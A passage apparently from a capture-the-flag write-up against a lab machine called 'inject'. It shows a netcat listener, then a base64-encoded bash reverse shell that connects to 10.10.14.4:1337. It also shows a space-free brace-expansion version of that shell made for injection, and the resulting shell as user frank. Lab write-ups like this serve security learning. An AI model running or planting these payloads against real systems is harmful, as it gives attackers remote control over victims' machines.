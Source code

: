 Test the payload:

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
```

```bash
$ echo 'L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYxICAK' | base64 -d | bash
```

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.14.4] 49422
```

Use the payload: 

```bash
"bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYxICAK}|{base64,-d}|{bash,-i}"
```

![](encoded_payload.png)

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.204] 48636
bash: cannot set terminal process group (819): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$
```